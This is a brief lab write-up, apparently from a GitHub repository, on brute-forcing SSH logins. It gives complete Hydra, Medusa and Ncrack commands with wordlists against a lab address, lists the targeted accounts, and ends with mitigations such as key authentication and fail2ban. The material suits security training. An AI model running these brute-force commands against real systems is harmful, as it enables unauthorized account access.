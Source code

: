 ## Online Password Attacks

---

### 🎯 Objective
Use Hydra, Medusa, and Ncrack to brute-force online login services.

---

### 🧪 Hydra – SSH
```bash
hydra -l sys -P /usr/share/john/password.lst ssh://172.17.0.2
```

---

### 🧪 Medusa – SSH
```bash
medusa -h 172.17.0.2 -u sys -P /usr/share/wordlists/metasploit/unix_users.txt -M ssh
```

---

### 🧪 Ncrack – SSH
```bash
ncrack -p 22 --user sys -P /usr/share/john/password.lst 172.17.0.2
```

---

### 📂 Lab Findings
- Accounts targeted: `sys`, `klog`, `service`, `gordonb`, `user`, `postgres`
- Weak passwords cracked quickly

---

### 🛡 Mitigation
- Disable password auth → use SSH keys
- Lockout after failed attempts
- Use fail2ban or similar

---

### 📌 Take-Aways
- Online brute-force is slow and noisy
- Targeted usernames + good wordlists improve success rate
